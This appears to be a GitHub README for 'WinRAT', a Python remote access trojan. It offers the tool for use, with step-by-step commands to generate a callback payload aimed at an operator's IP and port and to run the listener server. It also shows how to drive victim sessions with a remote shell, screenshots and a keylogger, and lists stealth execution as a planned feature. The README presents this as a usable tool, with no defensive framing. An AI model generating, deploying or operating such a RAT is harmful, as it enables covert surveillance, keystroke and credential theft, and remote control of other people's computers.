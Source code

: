 <h1 align="center"> 
    <img src="https://1.bp.blogspot.com/-bIFInkmTIjc/X9HamnJryDI/AAAAAAAAAvk/m1Gd-zUWTm82285JLa_1TgIpSPYt6dKJACLcBGAsYHQ/s2896/WinRAT.png" alt="WinRAT" /> <br>    
    WinRAT
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/muneebwanee/WinRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>

<h6 align="center"><img src="https://1.bp.blogspot.com/-ileKo-193NE/X9HeHFHI3yI/AAAAAAAAAwA/x0J3HWIh7y4wRLrswJsX34Lt09oGEVRVwCLcBGAsYHQ/s2195/WinRAT.png"></h6>

## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/muneebwanee/WinRAT.git
$ cd WinRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://1.bp.blogspot.com/-MPT_vanIA-0/X9HfzBocWyI/AAAAAAAAAwM/VsgW76tPWeMbWqOGECEC68FqJpzimUG-ACLcBGAsYHQ/s2048/WinRAT.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 winrat.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://1.bp.blogspot.com/--CU93TSA5hQ/X9HhV5axm6I/AAAAAAAAAwo/eV1W_MOM2_g9lwWBI44GPMoBYJRgHsOvgCLcBGAsYHQ/s2186/WinRAT.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```


### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Twitter: <a href="//twitter.com/muneebwanee">@muneebwanee</a><br>
Instagram: <a href="//instagram.com/muneebwanee">@muneebwanee</a><br>
Facebook: <a href="//facebook.com/muneebwane">@muneebwanee</a><br>
LinkedIn: <a href="//linkedin.com/muneebwanee">@muneebwanee</a><br>
GitHub: <a href="//github.com/muneebwanee">@muneebwanee</a><br>
BuyMeACoffee: <a href="//buymeacoffee.com/muneebwanee">@muneebwanee</a><br>
